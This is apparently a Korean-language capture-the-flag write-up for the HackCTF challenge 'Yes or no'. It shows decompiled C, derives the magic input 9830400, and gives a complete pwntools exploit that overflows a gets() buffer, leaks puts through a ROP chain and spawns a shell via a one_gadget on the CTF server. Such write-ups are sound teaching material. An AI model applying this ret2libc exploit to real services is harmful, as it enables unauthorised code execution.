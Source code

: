 ```yaml
---
title: "[HackCTF]Yes or no"
date: 2019-12-26
tags: [HackCTF]
categories: [HackCTF]
---
```


문제 의도는 그냥 ++전에 오는지 후에 오는지로 값 어떻게 나오는지 알아서 값을 맞춰주도록 해서 취약점으로 유도하는게 의도였던거 같다. 문제 서버는 ubuntu 18.04다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v3; // eax
  int v4; // eax
  int v5; // ecx
  int v6; // eax
  int v7; // eax
  char s; // [rsp+Eh] [rbp-12h]
  int input; // [rsp+18h] [rbp-8h]
  int v11; // [rsp+1Ch] [rbp-4h]

  setvbuf(stdout, 0LL, 2, 0LL);
  v11 = 5;
  puts("Show me your number~!");
  fgets(&s, 10, stdin);
  input = atoi(&s);
  if ( (v11 - 10) >> 3 < 0 )
  {
    v4 = 0;
  }
  else
  {
    v3 = v11++;
    v4 = input - v3;
  }
  if ( v4 == input )
  {
    puts("Sorry. You can't come with us");
  }
  else
  {
    v5 = 1204 / ++v11;
    v6 = v11++;
    if ( input == v6 * v5 << (++v11 % 20 + 5) )
    {
      puts("That's cool. Follow me");
      gets(&s);
    }
    else
    {
      v7 = v11--;
      if ( input == v7 )
      {
        printf("Why are you here?");
        return 0;
      }
      puts("All I can say to you is \"do_system+1094\".\ngood luck");
    }
  }
  return 0;
}
```

입력한 숫자 정수형을 바꿔서 취약점 터지는 부분에 가게 하면 된다.

```
if ( input == v6 * v5 << (++v11 % 20 + 5) )
{
	puts("That's cool. Follow me");
	gets(&s);
}
```

취약점은 여기에서 터진다. 그래서 input값을 구해주면 된다.

![](https://user-images.githubusercontent.com/32904385/71475652-898eeb00-2824-11ea-8b21-9cb91fea4988.png)

그냥 c로 짜서 나온 결과 가져왔다. 결과는 `9830400` 이면 통과해서 `gets(&s)` 로 갈 수 있게된다.

그래서 `9830400` 들어가서 gets로 ret 바꿔서 puts leak하고 main으로 돌려서 oneshot 날려주면 된다. 그냥 문제에 라이브러리도 줘서 쉽게 풀었다.

```python
from pwn import *

context.arch = 'amd64'
# context.log_level = 'debug'
e = ELF('./yes_or_no')
# p = process('./yes_or_no')
p = remote('ctf.j0n9hyun.xyz',3009)
libc = ELF('./libc-2.27.so')
prdi = 0x0000000000400883 # pop rdi ; ret

p.sendlineafter('!\n',str(9830400))

payload = '\x90' * 0x12
payload += 'realsung'
payload += p64(prdi) + p64(e.got['puts']) + p64(e.plt['puts'])
payload += p64(e.symbols['main'])

p.sendlineafter('me\n',payload)

libc_base = u64(p.recvuntil('\x7f').ljust(8,'\x00')) - libc.symbols['puts']
log.info('libc_base : ' + hex(libc_base))

p.sendlineafter('!\n',str(9830400))

payload2 = '\x90' * 0x12
payload2 += 'realsung'
payload2 += p64(libc_base + 0x45216)
p.sendlineafter('me\n',payload2)

p.interactive()
```

